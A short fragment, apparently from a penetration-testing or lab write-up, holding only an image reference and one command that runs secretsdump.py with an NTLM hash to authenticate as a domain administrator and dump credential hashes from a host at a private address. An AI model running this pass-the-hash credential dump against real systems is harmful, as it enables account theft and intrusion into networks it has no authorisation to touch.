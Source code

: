 ![image-20201122175303163](/assets/img/image-20201122175303163.png)



```
secretsdump.py -hashes :b9e0cfceaf6d077970306a2fd88a7c0a ring2.com/administrator@192.168.240.142
```

